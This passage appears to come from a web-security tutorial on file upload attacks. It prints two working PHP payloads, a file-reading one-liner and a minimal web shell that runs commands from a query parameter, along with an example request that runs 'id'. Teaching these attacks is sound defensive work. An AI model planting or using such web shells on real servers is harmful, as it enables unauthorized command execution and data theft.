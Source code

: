 **The following PHP one-liner could be used to read arbitrary files from the server's filesystem:**

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

**A more versatile web shell may look something like this:**

```php
<?php echo system($_GET['command']); ?>
```

This script enables you to pass an arbitrary system command via a query parameter as follows:

```
GET /example/exploit.php?command=id HTTP/1.1
```

